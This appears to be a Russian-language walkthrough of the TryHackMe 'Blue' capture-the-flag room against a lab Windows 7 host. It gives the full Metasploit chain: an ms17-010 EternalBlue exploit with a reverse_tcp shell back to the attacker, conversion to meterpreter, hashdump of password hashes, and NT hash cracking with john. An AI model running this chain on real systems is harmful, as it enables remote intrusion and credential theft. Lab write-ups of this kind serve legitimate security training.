


# TryHackMe: Blue

## Task 1: Recon
### Question 1: Scan the machine
Выполним базовое сканирование машины посредством следующей команды:
```sh
nmap -sC -sV -A 10.10.10.88
```


Мы нашли:
- 135, 49152-49154, 49158, 49160 ports - msrpc (MS RPC)
- 139 port - netbios-ssn (MS netbios-ssn)
- 445 port - microsoft-ds (Windows 7 Professional 7601 Service Pack 1 ms-ds)
- 3389 port - ssl/ms-wbt-server 

Service info: Host: JON-PC; OC: Windows

### Question 2: How many ports are open with a port number under 1000? 
Answer is 3 (135, 139 and 445 ports)

### Question 3: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
Для того, чтобы ответить на этот вопрос, просканируем машину повторно с использованием скрипта *vuln*:
```sh
nmap -sV --script vuln 10.10.10.88
```


Находим RCE через уязвимость в SMBv1 servers (**ms17-010**)
Интересный факт: уязвимость под этим номером использовал вирус WannaCry в 2017 году.


## Task 2: Gain Access
### Question 4: Start Metasploit
**Metasploit** – это платформа для тестирования, поиска и использования уязвимостей.


### Question 5: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
Введем следующую команду, что найти в базе эксплойт для найденной нами ранее уязвимости **ms17-010**:
```sh
search ms17-010
```


exploit/windows/smb/ms17_010_eternalblue - именно то, что нам нужно
Далее выберем найденный эксплойт:
```sh
use 0
```
После этого устанавливаем payload (см. *Question 7*) и смотри опции при помощи команды
```sh
show options
```


### Question 6: Show options and set the one required value. What is the name of this value? (All caps for submission)
Теперь необходимо настроить IP-адрес цели (**RHOSTS**), а также установить наш IP в качестве получателя (**LHOST**) и произвести запуск
```sh
set RHOSTS 10.10.10.88
```
```sh
set LHOST <Your tunnel IP>
```
```sh
run (or exploit)
```


### Question 7: Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
```sh
set payload windows/x64/shell/reverse_tcp
```

### Question 8: Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
На данный момент мы видим, что получили DOS shell (если при подключение появился баннер с FAIL, попробуйте повторить запуск заново)


Теперь сделаем так, чтобы данный процесс работал в фоновом режиме (CTRL + Z)


## Task 3: Escalate
### Question 9: If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
Сейчас нам необходимо конвертировать полученный shell в meterpreter shell от metasploit. Для этого воспользуемся модулем **shell_to_meterpreter**:
```sh
search shell_to_meterpreter
```
```sh
use 0
```


### Question 10: Select this (use MODULE_PATH). Show options, what option are we required to change?
Посмотрим доступные опции:
```sh
show options
```


Нам нужно установить номер УЖЕ СУЩЕСТВУЮЩЕЙ сессии!

### Question 11: Set the required option, you may need to list all of the sessions to find your target here. 
Список активных сессий можно посмотреть следующей командой:
```sh
sessions -l
```


Устанавливаем необходимую сессию через команду:
```sh
set SESSION 1
```

### Question 12: Run! If this doesn't work, try completing the exploit from the previous task once more.
Запускаем:
```sh
run
```

### Question 13: Once the meterpreter shell conversion completes, select that session for use.
Проверяем наличие новой сессии:
```sh
sessions -l
```


Запускаем новую сессию:
```sh
sessions 2
```


## Task 4: Cracking
### Question 14: Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
Теперь, когда мы получили reverse shell, получим хэши паролей:
```sh
hashdump
```


Имя non-default пользователя - Jon

### Question 15: Copy this password hash to a file and research how to crack it. What is the cracked password?
Копируем хэш в текстовый файл и при помощи утилиты *john* получаем расшифрованный пароль:
```sh
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash-Jon.txt
```


## Task 5: Find Flags!
Ищем все пути до флагов:
```sh
search -f "flag*.txt"
```


### Question 16: Flag1? This flag can be found at the system root. 


### Question 17: Flag2? This flag can be found at the location where passwords are stored within Windows. 


### Question 18: Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

